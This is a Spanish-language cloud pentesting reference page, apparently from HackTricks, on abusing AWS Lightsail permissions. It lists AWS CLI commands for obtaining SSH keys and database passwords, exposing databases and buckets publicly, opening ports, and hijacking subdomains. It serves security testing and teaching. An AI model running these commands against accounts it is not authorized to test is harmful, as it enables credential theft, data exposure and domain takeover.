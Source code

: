 # AWS - Lightsail Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Lightsail

Para más información sobre Lightsail, consulta:

{{#ref}}
../aws-services/aws-lightsail-enum.md
{{#endref}}

> [!WARNING]
> Es importante tener en cuenta que Lightsail **no utiliza roles de IAM pertenecientes al usuario** sino a una cuenta gestionada por AWS, por lo que no puedes abusar de este servicio para privesc. Sin embargo, **datos sensibles** como código, claves API e información de bases de datos podrían encontrarse en este servicio.

### `lightsail:DownloadDefaultKeyPair`

Este permiso te permitirá obtener las claves SSH para acceder a las instancias:
```
aws lightsail download-default-key-pair
```
**Impacto Potencial:** Encontrar información sensible dentro de las instancias.

### `lightsail:GetInstanceAccessDetails`

Este permiso te permitirá generar claves SSH para acceder a las instancias:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Impacto Potencial:** Encontrar información sensible dentro de las instancias.

### `lightsail:CreateBucketAccessKey`

Este permiso te permitirá obtener una clave para acceder al bucket:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Impacto Potencial:** Encontrar información sensible dentro del bucket.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

Este permiso te permitirá obtener las credenciales para acceder a la base de datos:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Impacto Potencial:** Encontrar información sensible dentro de la base de datos.

### `lightsail:UpdateRelationalDatabase`

Este permiso te permitirá cambiar la contraseña para acceder a la base de datos:
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
Si la base de datos no es pública, también podrías hacerla pública con estos permisos con
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
**Impacto Potencial:** Encontrar información sensible dentro de la base de datos.

### `lightsail:OpenInstancePublicPorts`

Este permiso permite abrir puertos a Internet.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Impacto Potencial:** Acceso a puertos sensibles.

### `lightsail:PutInstancePublicPorts`

Este permiso permite abrir puertos a Internet. Tenga en cuenta que la llamada cerrará cualquier puerto abierto que no esté especificado en ella.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Impacto Potencial:** Acceso a puertos sensibles.

### `lightsail:SetResourceAccessForBucket`

Este permiso permite dar a una instancia acceso a un bucket sin credenciales adicionales.
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
**Impacto Potencial:** Acceso potencial nuevo a buckets con información sensible.

### `lightsail:UpdateBucket`

Con este permiso, un atacante podría otorgar a su propia cuenta de AWS acceso de lectura sobre buckets o incluso hacer que los buckets sean públicos para todos:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Impacto Potencial:** Acceso potencial nuevo a buckets con información sensible.

### `lightsail:UpdateContainerService`

Con estos permisos, un atacante podría otorgar acceso a ECRs privados desde el servicio de contenedores.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Impacto Potencial:** Obtener información sensible de ECR privado

### `lightsail:CreateDomainEntry`

Un atacante con este permiso podría crear un subdominio y apuntarlo a su propia dirección IP (toma de subdominio), o crear un registro SPF que le permita falsificar correos electrónicos desde el dominio, o incluso establecer el dominio principal a su propia dirección IP.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Impacto Potencial:** Toma de control de un dominio

### `lightsail:UpdateDomainEntry`

Un atacante con este permiso podría crear un subdominio y apuntarlo a su propia dirección IP (toma de control del subdominio), o elaborar un registro SPF que le permita falsificar correos electrónicos del dominio, o incluso establecer el dominio principal en su propia dirección IP.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Impacto Potencial:** Toma de control de un dominio

{{#include ../../../banners/hacktricks-training.md}}
